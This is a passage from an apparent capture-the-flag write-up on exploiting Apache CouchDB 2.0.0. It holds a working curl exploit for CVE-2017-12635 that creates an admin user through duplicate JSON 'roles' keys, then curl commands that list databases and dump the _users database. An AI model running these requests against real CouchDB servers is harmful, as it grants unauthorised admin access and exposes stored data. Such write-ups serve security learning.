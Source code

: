 Now, I know the Apache CouchDB is in version 2.0.0.
Bad luck for them!
This version is vulnerable and impacted by some critical issues.

- Some public vulnerabilities: https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-19046/version_id-230263/Apache-Couchdb-2.0.0.html
- The public exploit I will use: https://www.exploit-db.com/exploits/44498/ Apache CouchDB JSON Remote Privilege Escalation Vulnerability (CVE-2017-12635)

This exploit script will exploit the JSON API to create an admin user.
As it is fairly easy, I will do it manually instead.

```
$ curl -X PUT -H 'Content-Type: application/json' -d '{"type": "user", "name": "noraj", "roles": ["_admin"], "roles": [], "password": "nopass"}' http://localhost:5984/_users/org.couchdb.user:noraj
noraj
{"ok":true,"id":"org.couchdb.user:noraj","rev":"1-e140e509077e57fd6bd5b5491b7c0e09"}
```

Now I have a CouchDB admin user `noraj` with password `nopass`.

Apache CouchDB documentation is available [here](https://docs.couchdb.org/en/stable/) but you won't be able to read 2.0.0 documentation as it has been archived.
So you will have to download the PDF or HTML zip from [here](https://readthedocs.org/projects/couchdb/downloads/).

You also read the PDF directly with Firefox(thanks to PDF.js): https://buildmedia.readthedocs.org/media/pdf/couchdb/2.0.0/couchdb.pdf

On page 217, the endpoint `/_all_dbs` is described:

> Returns a list of all the databases in the CouchDB instance.

```
$ curl -X GET http://noraj:nopass@127.0.0.1:5984/_all_dbs -H 'Content-Type: application/json'
'["_global_changes","_metadata","_replicator","_users","passwords","simpsons"]'
```

We can see there is a database `_users` and a one named `password`.

On page 249, the endpoint `/db/_all_docs` is described:

> Apache CouchDB, Release 2.0.0{"_id": "FishStew","servings": 4,"subtitle": "Delicious with fresh bread","title": "Fish Stew"}Response:HTTP/1.1 202 AcceptedCache-Control: must-revalidateContent-Length: 28Content-Type: application/jsonDate: Tue, 13 Aug 2013 15:19:25 GMTLocation: http://localhost:5984/db/FishStewServer: CouchDB (Erlang/OTP){"id": "FishStew","ok":true}10.3.2/db/_all_docsGET /{db}/_all_docsReturns a JSON structure of all of the documents in a given database. The information is returned as a JSONstructure containing meta information about the return structure, including a list of all documents and basiccontents, consisting the ID, revision and key. The key is the from the document’s `_id`.

Let's see the database `_users` first:

```
$ curl -X GET -H 'Content-Type: application/json' http://noraj:nopass@127.0.0.1:5984/_users/_all_docs
{"total_rows":2,"offset":0,"rows":[
{"id":"_design/_auth","key":"_design/_auth","value":{"rev":"1-75efcce1f083316d622d389f3f9813f7"}},
{"id":"org.couchdb.user:noraj","key":"org.couchdb.user:noraj","value":{"rev":"1-e140e509077e57fd6bd5b5491b7c0e09"}}
]}
```
